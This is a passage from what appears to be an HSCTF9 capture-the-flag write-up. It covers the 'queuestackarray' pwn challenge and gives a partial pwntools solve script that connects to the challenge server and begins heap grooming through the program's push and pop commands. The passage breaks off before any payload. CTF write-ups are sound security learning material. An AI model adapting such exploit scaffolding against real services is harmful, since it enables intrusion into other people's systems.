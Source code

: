 ```cpp
}
```
## Tunnels
https://github.com/xryuseix/CTF_Writeups/blob/master/HSCTF9/README.md //in japanese
# pwn
## queuestackarray
### Description
This is just the sort of needless complexity you have come to expect from your inventory management system.

-   Homestuck, page 970

`nc queuestackarray.hsctf.com 1337` running on Ubuntu 20.04
![](dump/queuestackarray.c)
![](dump/queuestackarray)
### Solve
```python
from pwn import *
import sys

libc = ELF("./libc.so.6")
elf = ELF("./queuestackarray")

if sys.argv[1] == "r":
    p = remote("queuestackarray.hsctf.com", 1337)
else:
    p = process("./queuestackarray_patched")
    # context.terminal = ["tmux", "splitw", "-h"]
    # gdb.attach(p, """
    # continue
    # heap bins
    # """)

def pushleft(num, content):
    p.sendlineafter("> ", "pushleft" + str(num) + " " + content)

def push(num, content):
    p.sendlineafter("> ", "push" + str(num) + " " + content)

def pop(num):
    p.sendlineafter("> ", "pop" + str(num))

def popright(num):
    p.sendlineafter("> ", "popright" + str(num))

def examine(num, idx):
    p.sendlineafter("> ", "examine" + str(num) + str(idx))

def solve():
    for i in range(6):
        push(3, str(i)*0x10)
    push(4, str(4)*0x10)

    for i in range(6):
        push(1, str(i)*0x10)
    
    for i in range(4):
        pushleft(2, str(i)*0x10)
```
